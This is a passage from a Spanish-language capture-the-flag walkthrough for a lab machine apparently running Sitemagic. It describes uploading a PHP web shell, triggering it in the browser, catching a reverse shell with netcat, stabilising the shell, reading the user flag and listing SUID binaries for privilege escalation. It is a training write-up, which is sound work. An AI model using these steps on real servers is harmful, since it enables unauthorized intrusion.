 Si lo subimos pinchando en la seccion de `Editor` veremos que la shell se subio perfectamente, por lo que nos iremos en la `URL` a la siguiente ubicacion...

```
URL = http://<IP>/sitemagic/files/
```

Aqui veremos 3 carpetas, como la subimos en `Editor` especificamente o en la que lo hayais subido, entraremos por ejemplo a `Editor` y ahi veremos la `shell.php` que subimos pero antes de darle, tendremos que estar a la escucha...

```shell
nc -lvnp <PORT>
```

Una vez estando a la escucha le daremos a la `shell.php` en la `URL`...

```
URL = http://<IP>/sitemagic/files/editor/shell.php
```

Y con esto ya tendriamos una shell con el usuario `www-data`, por lo que sanitizaremos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si nos vamos a la `/home` del usuario `heisenberg` veremos la flag del usuario...

> user.txt (flag1)

```
6346c6d19751f1a3195f1e4b4b609544
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
8195    112 -rwsr-xr-x   1 root     root       113528 Sep  4  2020 /usr/lib/snapd/snap-confine
     1254     16 -rwsr-xr-x   1 root     root        14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
     7362    100 -rwsr-xr-x   1 root     root       100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
     1068     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
     1250    428 -rwsr-xr-x   1 root     root       436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
     1061     44 -rwsr-xr--   1 root     messagebus    42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
      442     52 -rwsr-sr-x   1 daemon   daemon        51464 Feb 20  2018 /usr/bin/at
      840    148 -rwsr-xr-x   1 root     root         149080 Jan 31  2020 /usr/bin/sudo
      698     40 -rwsr-xr-x   1 root     root          40344 Mar 22  2019 /usr/bin/newgrp
      699     40 -rwsr-xr-x   1 root     root          37136 Mar 22  2019 /usr/bin/newuidmap
```
